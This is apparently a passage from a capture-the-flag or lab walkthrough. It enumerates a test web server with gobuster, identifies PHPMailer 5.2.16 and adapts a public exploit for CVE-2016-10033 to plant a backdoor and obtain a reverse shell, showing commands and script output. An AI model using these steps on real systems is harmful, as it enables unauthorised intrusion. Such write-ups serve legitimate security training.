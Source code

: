 Trying those folders gave me 403 errors, so the next thing I did was to enumerate those folders themselves, and got an interesting hit with the /mailer folder:

```
gobuster -u http://192.168.159.132/mailer -w /usr/share/wordlists/dirb/big.txt -q -t 20
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/LICENSE (Status: 200)
/docs (Status: 301)
/examples (Status: 301)
/extras (Status: 301)
/language (Status: 301)
/test (Status: 301)
```

Going to /mailer/examples/ reveals a PHPMailer installation. From the Github files, it should also have a VERSION file, so I went to http://192.168.159.132/mailer/VERSION and was rewarded with the version number: 5.2.16. I found a Metasploit exploit:

> PHPMailer versions up to and including 5.2.19 are affected by a
>  vulnerability which can be leveraged by an attacker to write a file
>  with partially controlled contents to an arbitrary location through
>  injection of arguments that are passed to the sendmail binary. This
>  module writes a payload to the web root of the webserver before then
>  executing it with an HTTP request. The user running PHPMailer must
>  have write access to the specified WEB_ROOT directory and successful
>  exploitation can take a few minutes.

This one didn't work for me, so I found another one with [searchsploit](https://www.exploit-db.com/exploits/40974). To make it work, I had to install requests_toolbelt and delete the banner that was giving an encoding error. Inside the code I changed the IP and port in the payload and added the target URL:

```python
target = 'http://192.168.159.132/contact'
```

Per the [advisory](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html):

> To exploit the vulnerability an attacker could target common website
> components such as contact/feedback forms, registration forms, password
> email resets and others that send out emails with the help of a vulnerable
> version of the PHPMailer class.

After finishing the modifications, I ran it:

``` plain
PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com
Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski

[+] SeNdiNG eVIl SHeLL To TaRGeT....
[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D
```

With a listener on, I went to http://192.168.159.132/backdoor and got a reverse shell:
